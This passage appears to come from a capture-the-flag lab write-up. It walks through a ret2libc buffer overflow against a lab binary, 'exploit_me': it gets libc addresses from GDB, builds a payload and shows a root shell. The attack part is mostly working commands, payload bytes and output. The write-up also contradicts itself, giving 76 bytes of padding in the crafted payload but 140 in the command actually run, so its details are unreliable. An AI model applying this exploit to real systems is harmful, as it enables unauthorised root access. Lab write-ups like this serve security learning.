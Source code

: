 Perfect, let's move to the other solution.

## Ret2libc

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system
[...]

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*76 + "\xb7\xe6\xb0\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print("\x90"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
��������������������������������������������������������������������������������������������������������������������������������������������`�����X���
# whoami
root
```

Congratulations, we've completed the challenge!
